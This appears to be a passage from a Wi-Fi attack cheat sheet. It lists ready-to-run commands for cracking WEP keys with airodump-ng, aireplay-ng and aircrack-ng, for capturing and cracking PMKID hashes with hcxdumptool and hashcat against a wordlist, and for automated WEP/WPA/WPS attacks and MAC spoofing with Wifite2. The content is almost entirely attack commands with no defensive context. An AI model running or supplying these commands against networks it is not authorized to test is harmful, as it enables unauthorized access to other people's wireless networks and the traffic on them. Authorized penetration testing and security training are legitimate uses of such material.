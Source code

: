 ## **1.6. Cracking WEP**

```sh
sudo airodump-ng -c <channel> --bssid <BSSID> -w wep_capture wlan0mon
sudo aireplay-ng -3 -b <BSSID> wlan0mon
sudo aircrack-ng -b <BSSID> wep_capture-01.cap
```

## **1.7. PMKID Attack**

```sh
sudo hcxdumptool -i wlan0mon --enable_status=1 -o pmkid.pcapng
hcxpcapngtool -o hash.pmkid pmkid.pcapng
hashcat -m 16800 hash.pmkid /usr/share/wordlists/rockyou.txt --force
```

## **1.8. Passive Monitoring**

```sh
sudo airodump-ng wlan0mon --write dump
sudo wireshark dump-01.cap
```

---

# **2. Wifite2 (Automated Wi-Fi Attacks)**

## **2.1. Installation**

```sh
sudo apt install wifite
```

## **2.2. Scan & Attack**

```sh
sudo wifite -i wlan0mon
```

## **2.3. WPA Attack**

```sh
sudo wifite --wps --wpa --wep --no-reaver
```

## **2.4. MAC Randomization**

```sh
sudo wifite -mac --kill
```

---

